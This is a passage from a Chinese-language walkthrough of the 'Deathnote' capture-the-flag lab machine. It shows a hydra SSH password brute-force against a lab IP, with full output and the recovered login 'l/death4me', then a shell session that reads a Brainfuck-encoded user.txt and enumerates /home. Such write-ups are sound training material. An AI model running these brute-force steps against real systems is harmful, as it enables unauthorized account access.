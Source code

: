 ![image-20231109143754361](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091437560.png)

内容拿下来，继续用hydra爆破一下看看：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ hydra -L user.txt -P password.txt 172.16.86.145 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-09 01:38:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 430 login tries (l:10/p:43), ~27 tries per task
[DATA] attacking ssh://172.16.86.145:22/
[STATUS] 283.00 tries/min, 283 tries in 00:01h, 148 to do in 00:01h, 15 active
[22][ssh] host: 172.16.86.145   login: l   password: death4me
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-09 01:40:28

```

比较幸运，爆破出来一个`l/death4me`，使用这个用户名密码登录ssh。

在用户目录下发现一个user.txt，内容如下：

```shell
l@deathnote:~$ id
uid=1000(l) gid=1000(l) groups=1000(l),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
l@deathnote:~$ ls
user.txt
l@deathnote:~$ cat user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

这是Brainfuck编码，直接去解码：

![image-20231109144309458](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091443686.png)
好吧，看起来是没什么用的信息。估计要跟这个kria挂钩一下。

看看还有什么用户：

```shell
l@deathnote:~$ cd /home
l@deathnote:/home$ ls
kira  l
l@deathnote:/home$ ls kira/
kira.txt
l@deathnote:/home$ cat kira/kira.txt
cat: kira/kira.txt: Permission denied
```
